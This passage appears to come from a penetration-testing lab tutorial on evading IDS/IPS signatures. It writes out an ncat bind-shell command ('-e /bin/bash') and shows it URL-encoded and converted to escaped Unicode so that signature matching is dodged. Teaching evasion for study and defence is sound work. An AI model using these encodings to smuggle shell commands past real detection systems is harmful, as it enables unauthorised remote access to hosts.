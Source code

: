 URL encoding converts certain characters to the form %HH, where HH is the hexadecimal ASCII representation. English letters, period, dash, and underscore are not affected. You can refer to [section 2.4 in RFC 3986](https://datatracker.ietf.org/doc/html/rfc3986#section-2.4) for more information.

One utility that you can easily install on your Linux system is `urlencode`; alternatively, you can either use an online service or search for similar utilities on MS Windows and macOS. To follow along on the AttackBox, you can install `urlencode` by running the command `apt install gridsite-clients`.

```ps1 title="Pentester Terminal"
pentester@TryHackMe$ urlencode ncat -lvnp 1234 -e /bin/bash
ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
```

`ncat -lvnp 1234 -e /bin/bash` becomes `ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash` after URL encoding. Depending what the IDS/IPS signature is matching, URL encoding might help evade detection.

### __Use Escaped Unicode__

Some applications will still process your input and execute it properly if you use escaped Unicode. There are multiple ways to use escaped Unicode depending on the system processing the input string. For example, you can use [CyberChef](https://icyberchef.com/) to select and configure the Escape Unicode Characters recipe as shown in the image below.

1. Search for Escape Unicode Characters
2. Drag it to the Recipe column
3. Ensure you a check-mark near Encode all chars with a prefix of `\u`
4. Ensure you have a check-mark near Uppercase hex with a padding of 4

![Alt text](image-12.png)

If you use the format `\uXXXX`, then `ncat -lvnp 1234 -e /bin/bash` becomes `\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`. It is clearly a drastic transformation that would help you evade detection, assuming the target system will interpret it correctly and execute it.
